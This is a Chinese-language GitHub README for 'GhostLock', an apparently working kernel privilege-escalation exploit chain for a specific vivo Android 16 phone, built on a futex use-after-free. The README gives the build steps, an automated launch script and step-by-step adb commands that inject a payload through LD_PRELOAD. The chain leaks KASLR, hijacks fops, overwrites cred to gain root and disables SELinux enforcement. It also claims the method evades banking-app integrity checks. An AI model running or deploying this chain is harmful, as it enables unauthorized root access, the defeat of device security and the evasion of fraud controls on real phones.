

<p align="center">
  
</p>

<p align="center">
  <a href="https://kernel.org/"></a>
  <a href="https://android.com/"></a>
  <a href="#目标设备"></a>
  <a href="https://github.com/tiann/KernelSU"></a>
  <a href="#license"></a>
</p>

---

> [!WARNING]
> **免责声明**：本项目为面向安全研究用途的草稿代码，仅在作者本人的设备上完成测试验证，不保证在其他环境下的质量与稳定性。
>
> **严禁在生产或日常主力设备上运行**；任何由此造成的设备变砖、数据丢失或硬件异常，作者概不负责。

---

## 📖 项目简介

**GhostLock** 是面向 **Android 16**（vivo iQOO Neo9S Pro）的 Linux 内核提权利用链（基于 `futex` 栈 UAF，CVE-2026-43499）：

- **A 轮**：在 `futex` PI 等待路径（`FUTEX_LOCK_PI`）留下可复用的内核栈空洞，并挂驻等待进程；
- **探测与烘焙**：通过 `psl2` 工具泄漏当次启动的 KASLR `TEXT` 基址，并动态烘焙设备专属 KernelSU 模块；
- **B 轮**：再次发射重踩该空洞，获得内核任意读写原语后改写 `cred` 结构体提权至 `uid=0`，并将 SELinux 改为 Permissive，完成 Rootless 提权落地。

---

## 🎯 目标设备与参数

| 配置项 | 详细规格 |
| :--- | :--- |
| **适配机型** | vivo iQOO Neo9S Pro（`PD2339` / `PD2339M`） |
| **系统固件** | `BP2A.250605.031.A3`（Android 16） |
| **内核版本** | `6.1.145-android14-11`（AArch64，`VA_BITS=39`，4KB 页） |
| **设备常量** | [`src/targets/target.h`](src/targets/target.h) |

> [!NOTE]
> 其他机型的 target 目录已精简清理，当前代码库为针对该机型的单目标实现草稿。

---

## 🔄 利用链执行流程



---

## 🛠️ 构建指南

### 环境依赖

构建依赖 **Android NDK**。`Makefile` 会按以下优先级顺序自动探测工具链路径：
1. 环境变量 `$ANDROID_NDK_HOME`
2. 环境变量 `$ANDROID_NDK_ROOT`
3. 用户缓存目录 `~/android-ndk-cache/android-ndk-*`
4. SDK 目录 `~/Android/Sdk/ndk/*`
5. 系统目录 `/opt/android-ndk`

> [!TIP]
> clang 资源目录采用 `lib/clang/*` 自动通配。若未探测到有效 NDK，将回退至宿主机 `clang` 并携带 `--target=aarch64-linux-android35` 交叉参数（需自备 sysroot）。可先执行 `make info` 查看实际命中的工具链。

### 常用 Make 命令

```sh
make            # clean → tools → payload，全流程自动化构建
make tools      # 仅构建 tools/ 工具：hijtest / slot_restore / psl2
make -C tools r829_bandscan  # 按需构建内存带宽探测工具
make payload    # 仅构建 preload.so 与 su_ksu，打包至 payloads/preload.so
make info       # 打印当前选中的 NDK 工具链与 GL_VERSION 编译版本
make clean      # 清理 build/、payloads/ 与 tools/ 下全部构建产物
```

- `make all` 采用递归 `$(MAKE)` 串行构建，杜绝多线程 `make -j` 带来的依赖竞态。
- 单项工具支持子目录直接编译，例如：`make -C tools psl2`。

### 构建产物清单

| 产物路径 | 说明 |
| :--- | :--- |
| `payloads/preload.so` | 发射核心载荷（通过 `LD_PRELOAD` 注入，A 轮与 B 轮共用） |
| `tools/psl2` | KASLR `TEXT` 地址探测工具 |
| `tools/hijtest` | 函数指针劫持验证工具 |
| `tools/slot_restore` | 栈槽位修复与测试工具 |
| `tools/r829_bandscan` | 内存带宽与对齐探测工具 |
| `build/<TARGET>/bin/` | 编译中间件及 `preload.so`、`su_ksu` 源码原件 |

版本号在构建时通过 `git describe` 自动编译进二进制内部（`BUILD_VERSION`）：

```sh
# 查看构建注入的版本号
make info | grep GL_VERSION

# 从产物二进制中读回版本标识
strings payloads/preload.so | grep -E '^[0-9a-f]{7,}(-dirty)?$'
```

> [!IMPORTANT]
> 仓库随附提供的 [`tools/kallsyms.new`](tools/kallsyms.new)（约 4.9MB，提取自官方固件 `boot.img`）是动态烘焙内核模块不可或缺的符号表输入。`tools/` 下的其余二进制不入库，均由 `make tools` 现场编译。

---

## 🚀 运行与提权

### 前置准备

- 启用设备的 USB 调试，确保能够通过 `adb shell`（`uid=2000` shell 权限）建立连接。
- A/B 两个发射轮次必须在**同一次系统开机周期**内完成。

### 方式一：全自动发射（推荐）

使用一键式自动化编排脚本 [`scripts/r830_autofire.sh`](scripts/r830_autofire.sh)，支持任意当前工作目录调用：

```sh
# 多设备并存时指定目标 Serial，单设备时可省略
export ANDROID_SERIAL=<你的设备Serial>

# 启动全自动两轮利用发射
./scripts/r830_autofire.sh r830 3
```

#### 可用环境变量配置

| 环境变量 | 默认值 | 用途说明 |
| :--- | :--- | :--- |
| `ANDROID_SERIAL` | 自动选择唯一设备 | 指定操作的 adb 目标设备序号 |
| `KALLSYMS` | `tools/kallsyms.new` | 自定义符号表文件路径 |
| `PRELOAD` | `payloads/preload.so` | 自定义 payload 注入动态库路径 |
| `PSL2` | `tools/psl2` | 自定义 psl2 测距工具路径 |
| `ADB` | `adb` | 自定义 adb 二进制路径 |
| `GL_LOG_INFO` | `0` (关闭) | 设为 `1` 时输出每个周期的重试细节 `pr_info` |

### 方式二：分步手动发射

```sh
# 1. A 轮：留置 futex PI 栈空洞并驻留等待进程
adb shell "cd /data/local/tmp && env SLIDE_WRITE_TARGET=selinux \
  LD_PRELOAD=/data/local/tmp/preload.so /system/bin/app_process64 / dummy"

# 2. 测算当前启动的 KASLR 内核基址
TEXT=$(adb shell "/data/local/tmp/psl2")

# 3. 烘焙并推送机型专用的 KernelSU 模块
./ksu/make_device_ko.sh "$TEXT"
adb push ksu/kernelsu-device-ready.ko /data/local/tmp/

# 4. B 轮：重踩栈空洞，劫持 fops 并改写 cred
adb shell "cd /data/local/tmp && env SLIDE_WRITE_TARGET=fops \
  SLIDE_CRED_WRITE=1 SLIDE_TEXT_ADDR=$TEXT \
  LD_PRELOAD=/data/local/tmp/preload.so /system/bin/app_process64 / dummy"
```

---

## 🛡️ 系统安全性与稳定性（Panic？）

> [!NOTE]
> **为什么不会引起系统崩溃（Kernel Panic）？**
>
> 在实际测试中，取得 root 权限后未观察到任何应用闪退、无法解锁、指纹/面容异常或相机失效等问题。
>
> 本方案采用纯内存运行时的 **Rootless / Systemless** 机制：
> 1. **零分区修改**：全程不触碰、不重挂载、不写入 `/system`、`/vendor` 或 `/product` 分区；
> 2. **无刷机风险**：无需解锁 Bootloader 或替换内核镜像，重启后即可恢复原生干净状态；
> 3. **银行与风控应用兼容**：不触发基于静态分区的签名校验和系统完整性检测。

---

## 📂 项目结构

```text
├── assets/             # 项目视觉设计资源与 Light-theme SVG Banner
├── build/              # 编译中间目标与二进制缓冲
├── ksu/                # KernelSU 预制固件及动态烘焙脚本 (make_device_ko.sh)
├── payloads/           # 最终打包的注入载荷 (preload.so)
├── scripts/            # 自动化发射脚本 (r830_autofire.sh) 与指令模板
├── src/                # GhostLock 利用链核心源码
│   ├── targets/        # 机型目标常量适配表 (target.h)
│   ├── fops.c          # fops 虚表劫持实现
│   ├── preload.c       # LD_PRELOAD 入口与状态分发
│   ├── root.c          # cred 与 selinux 改写逻辑
│   └── slide.c         # futex PI 栈滑动与 UAF 构造
├── tools/              # KASLR 探测 (psl2) 与辅助探测工具集
└── Makefile            # 工程跨平台与交叉编译规则
```

---

## 📄 License

本项目基于 [MIT License](LICENSE) 开源。
